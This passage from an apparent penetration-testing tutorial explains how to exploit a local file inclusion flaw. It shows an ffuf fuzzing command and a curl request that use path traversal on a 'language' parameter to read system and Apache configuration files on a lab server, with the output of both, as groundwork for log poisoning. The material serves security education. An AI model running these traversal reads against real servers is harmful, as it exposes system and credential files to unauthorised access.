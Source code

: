 As we have seen in the previous section, we need to be able to identify the correct logs directory to be able to perform the log poisoning attacks we discussed. Furthermore, as we just discussed, we may also need to read the server configurations to be able to identify the server webroot path and other important information (like the logs path!).

To do so, we may also use the [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist, as it contains many of the server logs and configuration paths we may be interested in. If we wanted a more precise scan, we can use this [wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux) or this [wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows), though they are not part of `seclists`, so we need to download them first. Let's try the Linux wordlist against our LFI vulnerability, and see what we get:

```shell
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ
 :: Wordlist         : FUZZ: ./LFI-WordList-Linux
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/etc/hosts              [Status: 200, Size: 2461, Words: 636, Lines: 72]
/etc/hostname           [Status: 200, Size: 2300, Words: 634, Lines: 66]
/etc/login.defs         [Status: 200, Size: 12837, Words: 2271, Lines: 406]
/etc/fstab              [Status: 200, Size: 2324, Words: 639, Lines: 66]
/etc/apache2/apache2.conf [Status: 200, Size: 9511, Words: 1575, Lines: 292]
/etc/issue.net          [Status: 200, Size: 2306, Words: 636, Lines: 66]
...SNIP...
/etc/apache2/mods-enabled/status.conf [Status: 200, Size: 3036, Words: 715, Lines: 94]
/etc/apache2/mods-enabled/alias.conf [Status: 200, Size: 3130, Words: 748, Lines: 89]
/etc/apache2/envvars    [Status: 200, Size: 4069, Words: 823, Lines: 112]
/etc/adduser.conf       [Status: 200, Size: 5315, Words: 1035, Lines: 153]

```

As we can see, the scan returned over 60 results, many of which were not identified with the [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist, which shows us that a precise scan is important in certain cases. Now, we can try reading any of these files to see whether we can get their content. We will read ( `/etc/apache2/apache2.conf`), as it is a known path for the apache server configuration:

```shell
curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf

...SNIP...
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
...SNIP...

```
